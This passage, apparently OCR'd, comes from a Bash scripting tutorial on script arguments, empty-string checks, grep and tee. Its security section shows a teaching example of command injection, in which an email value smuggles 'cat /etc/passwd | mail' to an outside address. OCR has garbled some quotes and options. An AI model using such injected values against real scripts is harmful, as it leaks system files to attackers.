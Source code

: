 . StarWars.sh
```

and

```
. StarWars.sh force
```

It must be noticed that the first argument is saved in the `$1` variable. What is, then, `$0`? This is the name of the shell script! And what is `$#`? This is the number of parameters!

What happens if we do not provide any argument?
We need to check that the string has been assigned, which can be done by adding

```
if [ -n “${string}” ]
then
    for file in $files; do grep —color -w $string $file >> Sentences.dat; done
else
    echo “No string provided.”
    return
fi
```

What happens if we use `exit` instead of `return`?

Another useful command worth mentioning is `tee`, which allows to save the output into a file, but also to show it on the stdout (our screen):

```ls Poems/*.txt | tee ListOfFilesWithTee.dat```

If we want to append to the output file, we can use the `-a` option:

```ls Poems/*.txt | tee -a ListOfFilesWithTee.dat```

## Bash security

[Situations that can turn very wrong very quickly](http://i.stack.imgur.com/MI1tR.jpg), which means it is important to be aware of potentially dangerous behaviours.

It is a good practice to not trust input data, which is one of the most common reasons of security-related incidents.
Some examples are buffer overflow (that is, accepting input longer than the size of the allocated memory), invalid or malicious input, code inside data, and many others.

One practical example, provided by Sebastian Lopienski, is the following: let's say we wrote a script that sends emails using the `mail` command:

```cat confirmation.txt | mail $email```

and someone provides the following email address:

```me@fake.com; cat /etc/passwd | mail me@real.com```

So, what do we get?

```
cat confirmation.txt | mail me@fake.com;
cat /etc/passwd | mail me@real.com
```

Great!

## Complexity

```